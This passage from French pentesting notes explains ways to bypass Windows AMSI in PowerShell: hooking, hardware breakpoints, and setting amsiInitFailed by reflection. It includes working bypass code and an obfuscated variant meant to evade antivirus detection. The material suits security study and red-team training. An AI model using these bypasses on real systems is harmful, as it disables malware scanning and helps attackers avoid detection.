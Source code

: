 Une fois ce code entrée dans une session Powershell, l'AMSI ne transmet plus les informations exécutée dans la session à l'antivirus.

### 2.2. Hooking

> https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/
>

La méthode de *hook* pour contourner l'AMSI (ou d'autres API système) consiste à intercepter les appels à des fonctions spécifiques (comme `AmsiScanBuffer` ou `AmsiScanString`) et à les rediriger vers un code personnalisé. Cela permet de modifier le comportement de la fonction cible sans changer son code d'origine. 

### 2.3. Hardware Breakpoint

> https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Hardware-Breakpoints
>

L'idée est de placer un *hardware breakpoint* sur la fonction **`AmsiScanBuffer`** (ou une autre fonction AMSI). Une fois que cette fonction est appelée, le *breakpoint* intercepte l'exécution, et le programme peut rediriger ou modifier son comportement

### 2.4. Exploiter amsiInitFailed

**`amsiInitFailed`** est un champ interne dans la classe **`System.Management.Automation.AmsiUtils`**, qui appartient à l'assembly utilisé par PowerShell.

Cette variable sert à indiquer si AMSI a été correctement initialisé. Si la valeur de `amsiInitFailed` est définie sur `true`, PowerShell suppose que l'initialisation d'AMSI a échoué, et il ignore les appels à AMSI (comme les scans via `AmsiScanBuffer`).

En modifiant ce champ pour le définir sur `true`, on peut désactiver AMSI dans PowerShell sans avoir à patcher directement `amsi.dll` ou ses fonctions comme `AmsiScanBuffer`.

C'est la méthode la plus efficace pour contourner l'AMSI dans un contexte Powershell.

```powershell
# Utilisation de la réflexion pour accéder à la classe et au champ
$AmsiUtils = [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils")
$Field = $AmsiUtils.GetField("amsiInitFailed", "NonPublic,Static")

# Définir le champ sur 'true' pour désactiver AMSI
$Field.SetValue($null, $true)
```

Le code précédent est une variante connue des AV donc pour que cette méthode fonctionne, il faut obfusquer les champs amsiInitFailed et System.Management.Automation.AmsiUtils.

Voilà un exemple.

```bash
# Define two long numeric strings
$A = "5492868772801748688168747280728187173688878280688776828"
$B = "1173680867656877679866880867644817687416876797271"

# Decode a string to get the type name using reflection
$typeName = [string](0..37 | ForEach-Object {
    # Calculate character codes and convert them to characters
    [char][int](29 + ($A + $B).Substring($_ * 2, 2))
}) -replace " "

# Decode another string to get the field name
$fieldName = [string](38..51 | ForEach-Object {
    # Calculate character codes and convert them to characters
    [char][int](29 + ($A + $B).Substring($_ * 2, 2))
}) -replace " "

# Use reflection to get the specified type and field
```